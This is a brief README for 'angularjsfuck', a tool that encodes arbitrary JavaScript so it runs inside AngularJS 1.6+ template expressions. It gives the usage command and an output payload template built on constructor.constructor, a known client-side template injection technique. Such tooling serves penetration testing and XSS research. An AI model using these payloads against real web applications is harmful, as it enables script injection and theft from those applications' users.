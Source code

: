 # angularjsfuck

The goals is to permit the execution of any javascript code inside angularjs expressions starting from angular 1.6

 
Usage:
```
npm install
node index.js <javascript expression> [--hard [--clean]]
```
Output:
```
{{constructor.constructor(<encoded javascript expression>)()}}

```
